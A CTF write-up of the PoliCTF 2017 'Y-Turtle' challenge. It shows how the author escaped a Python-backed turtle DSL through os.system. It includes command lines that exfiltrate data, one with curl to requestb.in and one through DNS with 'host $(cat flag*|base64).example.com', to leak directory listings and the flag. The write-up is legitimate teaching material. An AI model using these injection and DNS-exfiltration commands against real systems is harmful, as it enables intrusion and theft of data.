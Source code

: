 ```yaml
---
layout: post
ctf: "PoliCTF 2017"
title: "PoliCTF 2017 - Y-Turle - Grab Bag"
---
```


>A new cyber-artistic collective had fun experimenting with metaprogramming and domain specific languages. Here thre is a first, broken, implementation of a Turtle graphic engine.
>http://yturtle.chall.polictf.it

This challenge was about breaking out of an environnement that provided a DSL to create an image output using turtle graphics.


<img src="https://i.imgur.com/T4VCWjv.png" />

Since the description hinted about metaprogramming, I tried executing function that would be associated to common dynamic languages.

```
(instance_eval "move(5)") ; returned nothing, it's not Ruby
```

```
(move (ord "A")); made the cursor move 41 pixels. ord is very Pythonic function
```

```
(import time)
(time.sleep 10) ; delays the response by 10 seconds
```

Can we use `os.system`? Of course!

```
(import os)
(os.system "sleep 10") ; delays the response by 10 seconds
```

Since I was not able to get the output of the commands I was running, I tried using an external server.

```
(import os)
(os.system "curl http://requestb.in/XXXXXX?x=$(ls|base64)") ; response hangs
```

Access to internet is probably blocked. I then tried using DNS which turned out not to be blocked.

```
(import os)
(os.system "host $(cat flag*|base64).example.com")
```
The server receives a DNS query for the subdomain `ZmxhZ3tzaGFfbWFfbmFfbmFfbmFfc2hhbWFfbmFfbmFfbmFfbmF9Cg==` which decodes to the flag `flag{sha_ma_na_na_na_shama_na_na_na_na}`.

Becojo - Northern Coalition
